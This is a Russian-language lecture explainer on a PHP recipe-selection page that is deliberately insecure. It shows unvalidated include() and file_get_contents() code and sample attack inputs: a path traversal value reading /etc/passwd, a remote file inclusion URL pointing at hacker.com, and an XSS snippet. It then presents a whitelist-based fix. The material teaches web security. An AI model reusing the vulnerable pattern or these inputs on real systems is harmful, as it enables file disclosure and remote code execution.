

### Объяснение лекции: Проект выбора рецептов с уязвимостями безопасности

#### **1. Обзор проекта**

**Цель проекта:**

- Создать выпадающий список с рецептами
- Отображать фото и инструкцию для выбранного рецепта
- Демонстрация основных уязвимостей безопасности

**Визуализация:**



---

#### **2. Реализация формы выбора**

```php
<?php
// Файл: include.php
?>

<form method="GET" action="include.php">
  <select name="page">
    <option value="">Please select a recipe</option>
    <option value="citrus_salmon"
      <?= !empty($_GET['page']) && $_GET['page'] === 'citrus_salmon' ? 'selected' : '' ?>
    >Citrus Salmon</option>

    <option value="mediterranean_pasta"
      <?= !empty($_GET['page']) && $_GET['page'] === 'mediterranean_pasta' ? 'selected' : '' ?>
    >Mediterranean Pasta</option>

    <!-- Остальные варианты -->
  </select>
  <input type="submit" value="Submit">
</form>
```

**Особенности:**

- Используется метод `GET` для передачи параметра `page`
- Автоматическое сохранение выбора через атрибут `selected`
- Форма отправляется на тот же файл (`action="include.php"`)

---

#### **3. Отображение выбранного рецепта (небезопасная версия)**

```php
<?php
if (!empty($_GET['page'])) {
  // Опасное включение файла!
  include 'pages/' . $_GET['page'] . '.php';
}
?>
```

**Проблемы этой реализации:**

1. **Path Traversal уязвимость:**
   ```php
   // Злоумышленник может передать:
   // page=../../../etc/passwd
   ```
2. **Выполнение произвольного PHP-кода**
3. **Неправильное использование `include`**

---

#### **4. Улучшенная версия (но все еще уязвимая)**

```php
<?php
if (!empty($_GET['page'])) {
  // Безопаснее, но все равно проблемы
  $filePath = 'pages/' . $_GET['page'] . '.php';
  echo file_get_contents($filePath);
}
?>
```

**Что изменилось:**

- Используется `file_get_contents()` вместо `include`
- Содержимое файла не выполняется как PHP-код
- Но остаются проблемы безопасности

**Демонстрация проблемы:**

```php
// Если в файле рецепта добавить:
<?php echo rand(1, 100); ?>
// Браузер отобразит как текст:
// "<?php echo rand(1, 100); ?>"
```

---

#### **5. Рекомендуемые изменения для безопасности**

```diff
// Изменить расширение файлов рецептов
citrus_salmon.php → citrus_salmon.html

// Обновить код загрузки
if (!empty($_GET['page'])) {
-  echo file_get_contents('pages/' . $_GET['page'] . '.php');
+  echo file_get_contents('pages/' . $_GET['page'] . '.html');
}
```

**Преимущества:**

- Четкое разделение кода и данных
- Предотвращение случайного выполнения кода
- Явное указание типа содержимого

---

#### **6. Критические уязвимости (для разбора в следующей лекции)**

1. **Path Traversal Attack:**

   ```php
   // Пример опасного запроса:
   // include.php?page=../../config
   ```

2. **Remote File Inclusion (RFI):**

   ```php
   // Если настроено allow_url_include=On
   // include.php?page=http://hacker.com/malicious
   ```

3. **Отсутствие валидации ввода:**

   - Нет проверки допустимых значений
   - Нет "белого списка" рецептов

4. **XSS через содержимое файлов:**
   ```html
   <!-- Если файл содержит: -->
   <script>
     alert("XSS!");
   </script>
   ```

---

### Пример безопасной реализации (предварительный)

```php
<?php
// "Белый список" допустимых рецептов
$allowedPages = [
    'citrus_salmon',
    'mediterranean_pasta',
    'vegetable_risotto',
    'spicy_tacos'
];

if (!empty($_GET['page']) && in_array($_GET['page'], $allowedPages)) {
    $filePath = 'pages/' . $_GET['page'] . '.html';

    if (file_exists($filePath)) {
        // Чтение и экранирование содержимого
        $content = file_get_contents($filePath);
        echo htmlspecialchars($content, ENT_QUOTES, 'UTF-8');
    }
}
?>
```

### Ключевые выводы

1. **Всегда проверяйте пользовательский ввод:**

   - Используйте "белые списки" вместо "черных списков"

   ```php
   // ❌ Плохо
   if ($_GET['page'] !== 'hack') {...}

   // ✅ Хорошо
   $allowed = ['safe1', 'safe2'];
   if (in_array($_GET['page'], $allowed)) {...}
   ```

2. **Избегайте прямого включения файлов:**

   - Никогда не используйте `include`/`require` с пользовательскими данными

3. **Разделяйте код и данные:**

   - Храните пользовательский контент в отдельных файлах с расширением `.html` или `.txt`

4. **Экранируйте вывод:**
   - Всегда обрабатывайте содержимое через `htmlspecialchars()`

> 🔒 **Важное предупреждение**  
> Представленная в лекции реализация содержит критические уязвимости.  
> В следующей лекции автор подробно разберет эксплойты и методы защиты.
